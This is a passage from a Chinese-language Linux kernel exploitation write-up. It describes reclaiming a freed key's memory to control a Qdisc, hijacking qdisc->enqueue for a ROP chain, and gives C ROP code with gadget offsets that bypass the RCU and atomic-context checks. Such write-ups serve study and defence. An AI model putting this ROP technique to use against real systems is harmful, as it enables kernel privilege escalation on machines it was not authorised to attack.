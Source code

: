 ‍

然后释放 key，再重新占位就能控制 Qdisc，劫持 qdisc->enqueue 实现 ROP

​![image](assets/1706145705-af4ac8cd928730ac000d258a6a50091f.png)​

‍

由于 qdisc->enqueue 在 中断上下文（原子上下文）和 RCU 临界区中执行，所以在 ROP 返回用户态前需要设置一些字段避免内核崩溃：

-   "Illegal context switch in RCU read-side critical section"
-   "BUG: scheduling while atomic: \[...\]"

‍

绕过 RCU 临界区的检测，设置：​`current->rcu_read_lock_nesting = 0`​

```C
    // current = find_task_by_vpid(getpid())
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = getpid();                   // pid
    rop[idx++] = kbase + 0xffffffff8110a0d0; // find_task_by_vpid

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff810a08ae; // pop rsi ; ret
    rop[idx++] = 0x46c;                      // offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff8107befa; // add rax, rsi ; jmp 0xffffffff82404440 (retpoline)

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8167104b; // mov qword ptr [rax], rcx ; jmp 0xffffffff82404440 (retpoline)
```

绕过原子上下文的检测：

```C
    // Bypass "schedule while atomic": set oops_in_progress = 1 
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 1;                          // 1
    rop[idx++] = kbase + 0xffffffff810a08ae; // pop rsi ; ret
    rop[idx++] = kbase + 0xffffffff8419f478; // oops_in_progress
    rop[idx++] = kbase + 0xffffffff81246359; // mov qword ptr [rsi], rdi ; jmp 0xffffffff82404440 (retpoline)
```

